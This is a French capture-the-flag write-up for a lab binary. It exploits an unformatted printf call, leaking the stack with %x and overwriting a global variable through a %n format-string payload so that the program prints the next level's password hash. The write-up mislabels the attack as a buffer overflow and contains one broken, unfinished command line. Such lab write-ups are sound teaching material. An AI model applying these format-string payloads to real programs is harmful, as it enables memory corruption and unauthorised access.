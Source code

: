 ## LEVEL 4

# Le level 4 est quasi pareil que le level 3

En inspectant le code avec gdb, nous voyons que le programme appelle printf, mais directement avec la variable passe en argument. Il n'y a donc pas de formatage de la chaine de caractere. Et egalement, on se rends compte que le programme appelle system tout en affichant le .pass, si le m(pas encore initialise) est egal a 16930116

D'apres le man de printf: `Un code tel que printf(foo); indique souvent un bogue, car foo peut contenir un caractère « % ». Si foo vient d'une saisie non sécurisée, il peut contenir « %n », ce qui autorise printf() à écrire dans la mémoire, et crée une faille de sécurité.  `

```c
void n(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

On peut donc deja trouver l'adresse de la variable m avec gdb

```
info variables

0x08049810  m
```

On peut exploiter le faire que printf ne reformate pas ce qu'on envoie pour faire une attaque de type buffer overflow.

```python
python -c 'print "iiii" + "%x | "*16' | ./level4
iiiib7ff26b0 | bffff794 | b7fd0ff4 | 0 | 0 | bffff758 | 804848d | bffff550 | 200 | b7fd1ac0 | b7ff37d0 | 69696969 | 7c207825 | 20782520 | 7825207c | 25207c20 |
```

Notre buffer est donc affiche en 12 eme position, on peut donc mettre exploiter le 12 eme % de printf avec %n pour ecrire dans la variable m. Sauf que le nombre de caractere a ecrire est trop grand, donc on doit juste utiliser le %<number>d pour ecrire le nombre de caractere qu'on veut.

```python
python -c 'print "\x10\x98\x04\x08"+"i"
Wait what?!
```

On peut maintenant juste maintenir la connexion avec le shell et faire un cat sur le fichier contenant le mot de passe.

```python
python -c 'print "\x10\x98\x04\x08"+"%16930112d%12$n"' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
...
```
